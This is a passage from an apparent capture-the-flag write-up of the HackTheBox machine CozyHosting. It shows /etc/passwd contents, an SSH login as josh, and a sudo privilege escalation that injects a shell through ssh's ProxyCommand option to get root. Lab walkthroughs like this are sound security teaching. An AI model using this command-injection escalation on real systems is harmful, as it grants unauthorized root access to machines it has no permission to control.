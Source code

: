 ```
app:x:1001:1001::/home/app:/bin/sh
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
josh:x:1003:1003::/home/josh:/usr/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
```

Here we could see that josh was the only real user present so it was a good idea to try this password with the josh user

```
ssh josh@cozyhosting.htb
```

## Privesc

When i landed on the box the first thing I checked was which commands josh was allowed to run as root. here we could see it was allowed to run SSH as root with all parameters.

![Sudo -L](/assets/img/Cozyhosting/Cozyhosting_13.png)

SSH is a commonly abused binary for privilege escalation For more information on what you can do with this check out [gtfobins](https://gtfobins.github.io/gtfobins/ssh/).

Using the following command we were able to spawn an interactive root shell

```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

![shell as root](/assets/img/Cozyhosting/Cozyhosting_14.png)
